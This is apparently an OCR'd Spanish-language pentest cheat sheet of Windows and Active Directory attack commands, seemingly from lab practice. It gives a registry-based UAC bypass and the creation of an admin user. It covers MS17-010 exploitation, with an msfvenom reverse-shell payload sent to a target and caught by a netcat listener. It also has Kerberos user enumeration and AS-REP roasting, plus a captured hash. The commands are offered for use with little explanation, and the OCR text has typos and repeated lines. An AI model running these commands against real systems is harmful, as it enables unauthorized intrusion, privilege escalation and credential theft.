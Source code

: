 REG ADD HKCU\\Software\\Classes\\ms-settings\\Shell\\Open\\command /v DelegateExecute /t REG\_SZ
REG ADD HKCU\\Software\\Classes\\ms-settings\\Shell\\Open\\command /d "cmd.exe" /f
whoami /groups <- verificar que se tenga **"MAndatory Label High Mandatory Level"**
si todo bien, se puede crear un usuario
net user admin Ev!lpass
**\- Identificacion de carpetas sobrescribibles o verificacion de permisos**
accesschk.exe -ucqv [service\_name] /accepteula
accesschk.exe -uws "Everyone" "C:\\Program Files"
Get\-ChildItem "C:\\Program Files" \-Recurse \| Get\-ACL \| ?\{$\_\.AccessToString \-match "Everyone\\sAllow\\s\\sModify"\}
**\- Identificacion de binarios sobrescribibles**
reg query HKEY\_CURRENT\_USER\\Software\\Policies\\Microsoft\\Windows\\Installer
**\- Enumerando volumenes**
mountvol
**\- Enumeracion de Drivers y modulos**
powershell
driverquery\.exe /v /fo csv \| ConvertFrom\-CSV \| Select\-Object ‘Display Name’\, ‘Start Mode’\, Path
Get\-WmiObject Win32\_PnPSignedDriver \| Select\-Object DeviceName\, DriverVersion\, Manufacturer \| Where\-Object \{$\_\.DeviceName \-like "\*VMware\*"\}
\- Informacion adicional
cmd.exe /c dir /a C:\\
\- Visualizacion de permisos
icalcs “C:\\Program Files\\nasm-2.24\\win64\\nssm.exe”
icalcs “C:\\Program Files\\nasm-2.24\\win64"

* 

**\- Impacket \- ms17\-010**
nmap -d -sC -p445 --script smb-vuln-ms17-010.nse 10.10.72.70
se debe hacer ambiente virtual
git clone https://github.com/SecureAuthCorp/impacket.git
cd ms17-010-exploit
apt install python2-pip-whl
apt install python2-pip-whl
apt install python2-setuptools-whl\\n
virtualenv -p python2 venv
source venv/bin/activate
pip install impacket
pip install pycrypto
msfvenom -p windows/shell\_reverse\_tcp LHOST=192.168.119.192 LPORT=4445 -f exe > shell.exe
python send\_and\_execute.py 10.11.1.5 shell.exe 445 browser
nc -nlvp 4445
**\- apt install bloodhound neo4j**
**\- identificacion de usuarios**
./kerbrute\_linux\_amd64 userenum -d spookysec.local userlist.txt
kerbrute -domain heist.offsec -users /usr/share/wordlists/names.txt -dc-ip 192.168.194.165
**permite identificar hash de un usuario privilegiado mediante consulta de GNP sin password**
python3.10 /opt/impacket/examples/GetNPUsers.py "spookysec.local/svc-admin"
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:a3b87eeaa23c250478bf82bdb0dbab70$7207c49081906c59084f6d56c2767c7d357ee0a3f9e4630a5cef809bf7c290e15ff115d0f73c246d93c9d2d76a22bbefb0b89781c9d1c79a17572ad4f22e1ec9fb4ba5cb974762ecae06dd91c78af3138661942c508b16144d6ecca037a44b93e678d0b24879785913c7c54c8dafd8df4c9349c059e05293d00ce2de23cfe79c370bf7d420df09d3aa4f818a919be91b51da14646f991fd31c23396e3e1cf7625cc7b30811d2a659526af68f08b618a3f667484a3b939eff8111db3d496d7fd951d1e0285f50c7ff5d7309ccbb543a1d4ba506c1efef58b96ff4877a95796d0344570432c744cc53cdb440b7024a37211637
